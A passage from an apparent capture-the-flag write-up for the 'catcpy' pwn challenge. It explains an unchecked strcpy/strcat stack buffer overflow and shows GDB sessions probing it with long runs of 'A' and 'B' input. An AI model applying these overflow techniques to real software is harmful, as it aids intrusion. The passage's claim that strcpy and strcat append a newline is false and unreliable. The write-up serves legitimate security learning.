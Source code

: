 ```c

      default:
        return 0;
    }
  }
}
```

In this `main` function, it'll copy (`strcpy`) and concatenate (`strcat`) from `g_buf` to `buf`. However, the function **didn't check the source length in both `strcpy` and `strcat`**, which means this function is **vulnerable to buffer overflow**.

To test this, we can use GDB to start debugging:

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-6-(Pwn)/catcpy/catcpy)-[2024.11.04|13:57:38(HKT)]
└> gdb ./catcpy 
[...]
gef➤  disassemble main
Dump of assembler code for function main:
   [...]
   0x0000000000401361 <+130>:	call   0x401100 <printf@plt>
   [...]
gef➤  b *main+130
Breakpoint 1 at 0x401361
gef➤  r
[...]
Breakpoint 1, 0x0000000000401361 in main ()
[...]
gef➤  c
Continuing.
> 
```

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-6-(Pwn)/catcpy)-[2024.11.04|14:07:25(HKT)]
└> python3 -c 'print("A" * (0x100 - 1))'           
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-6-(Pwn)/catcpy)-[2024.11.04|14:07:34(HKT)]
└> python3 -c 'print("B" * 32)'        
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

> Note: `strcpy` and `strcat` will append a newline character at the end, thus we need to provide 255 (0x100 - 1) characters.

```shell
> 1
Data: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x0000000000401361 in main ()
[...]
gef➤  
Continuing.
> 2
Data: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Breakpoint 1, 0x0000000000401361 in main ()
[...]
gef➤  c
Continuing.
> 
```
